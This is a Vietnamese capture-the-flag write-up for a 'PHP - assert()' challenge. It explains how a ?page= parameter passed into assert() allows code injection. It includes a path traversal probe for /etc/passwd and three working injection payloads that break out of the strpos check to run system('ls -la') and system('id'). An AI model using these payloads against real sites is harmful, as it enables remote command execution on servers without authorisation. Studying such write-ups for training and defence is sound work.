



# Write-up for PHP - assert()

- Truy cập vào trang web và truy cập vào trang home => mỗi page được xử lí với param `?page=` khi xử lí từng page.


- Với param này, chúng ta có thể đoán rằng đoạn code sẽ có các hàm xử lí file như `include`, `require`, ...
- Thử path traversal với `../../../../../../etc/passwd` => có 1 thông báo lỗi hiện ra: `assert(): Assertion .... strpos('include..')===false` => ta có thể đoán được đoạn code có thể như sau


- Đoạn code giả định của server. Nó sẽ lấy tham số `page` của param page trên URL => dùng hàm include để gọi các page vào để hiện thị. Sau đó dùng hàm `stropos` để kiểm tra xem có kí tự `..` trong đoạn code không. Nếu có thì hàm assert sẽ xử lí sang điều kiện else là `die...` 
- Hàm assert trong PHP la ham xu li dieu kien. Cach hoat dong cua ham assert nhu sau: 
- `assert(condition, description);`
- Vi du: 

  ```php
  assert(2 + 2 == 4); // Không có lỗi, điều kiện đúng
  assert(2 + 2 == 5, "Toán học có vấn đề!"); // Gây lỗi với thông báo "Toán học có vấn đề!"
  ```php

- Hàm assert trong PHP là hàm xử lý điều kiện. Cách hoạt động của hàm assert như sau:

- `assert(condition, description);`

- Ví dụ:

  ```php
  assert(2 + 2 == 4); // Không có lỗi, điều kiện đúng
  assert(2 + 2 == 5, "Toán học có vấn đề!"); // Gây lỗi với thông báo "Toán học có vấn đề!"
  ```

- Hàm assert thường được dùng để debug.


- Tìm hiểu và research về lỗ hổng liên quan đến hàm `assert` trong PHP => tim duoc 1 payload: 
  
  ```php
  ','1') or system("ls -la");//
  ```

- Khi payload vao, doan ma se tro thanh: 
  
  ```php
  $file = "include/ ','1') or system(\"ls -la\");// ".php"";
  assert("strpos('include/ ','1') or system(\"ls -la\");//.php",'..') ==false");
  ```
  
=> doan ma `system("ls -la")` se duoc thuc thi vi ham `strpos` se la sai vi 1 khong xuat hien trong chuoi include => ham `system` se duoc thuc thi.




- Cach payload thu 2: (HackTricks)
  `' and die(system("id")) or '`
=> chuoi truyen vao la: 

```php
$file = "includes/' and die(system(\"id\")) or '.php";
assert("strpos('includes/' and die(system(\"id\")) or '.php', '..') === false");
```

```
    1, Đầu tiên: strpos('includes/' and die(system("id")) or '.php', '..') === false được xử lý.
    2, Giải thích từng phần:
    - strpos('includes/' and die(system("id")) or '.php', '..')

    - Phần này sẽ thực hiện phép and.
    - strpos('includes/' and die(system("id")) or '.php', '..') sẽ kiểm tra:
      - 'includes/' (true) kết hợp với die(system("id")).
      - die(system("id")) được thực thi vì strpos cần đánh giá toàn bộ biểu thức.
    - Khi die(system("id")) được thực thi, lệnh system("id") gọi hệ thống và hiển thị kết quả lệnh id.
    - or '.php'
      - Do die() chấm dứt quá trình xử lý tại chỗ, phần còn lại or '.php' không được thực thi.
  
```

- Cach payload thu 3: (Tu nghi)
  `1','1')===false or system("ls -la");//`

